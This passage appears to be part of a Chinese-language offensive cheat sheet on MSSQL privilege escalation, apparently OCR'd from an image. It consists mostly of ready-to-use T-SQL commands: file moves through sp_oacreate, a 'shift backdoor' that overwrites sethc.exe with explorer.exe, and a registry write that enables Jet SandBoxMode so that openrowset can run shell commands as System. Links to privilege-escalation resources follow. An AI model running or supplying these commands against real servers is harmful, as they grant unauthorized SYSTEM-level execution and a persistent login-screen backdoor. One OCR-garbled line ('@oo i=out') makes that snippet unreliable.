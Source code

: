 ```
declare @o int
exec sp_oacreate 'scripting.filesystemobject',@o out
exec sp_oamethod @o,'movefile',null,'c:\1.txt','c:\3.txt'
```

shift后门

```
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o,'copyfile',null,'c:\windows\explorer.exe', 'c:\windows\system32\sethc.exe'
declare @oo int
exec sp_oacreate 'scripting.filesystemobject', @oo i=out
exec sp_oamethod @oo,'copyfile',null,'c:\windows\system32\sethc.exe','c:\windows\system32\dllcache\sethc.exe'
```

##### 5.2.3 沙盒

- 利用条件

1，Access可以调用VBS的函数，以System权限执行任意命令 2，Access执行这个命令是有条件的，需要一个开关被打开 3，这个开关在注册表里 4，SA是有权限写注册表的 5，用SA写注册表的权限打开那个开关 6，调用Access里的执行命令方法，以system权限执行任意命令执行SQL命令，执行了以下命令

- 开启

```
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1
```

- 利用

```
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\dnary.mdb','select shell("whoami")')
```



参考：

《内网安全攻防》

https://xz.aliyun.com/t/2519#toc-11

交互式shell :http://blog.evalbug.com/2018/07/25/antsword_prompt_shell/

交互式shell : https://www.freebuf.com/news/142195.html

sudo滥用提权：https://gtfobins.github.io/

suid提权： https://www.anquanke.com/post/id/86979

docker组提权： http://www.openskill.cn/article/21

数据库提权：https://www.sqlsec.com/2020/11/mysql.html#toc-heading-1

linux提权脚本检测： https://www.freebuf.com/sectool/121847.html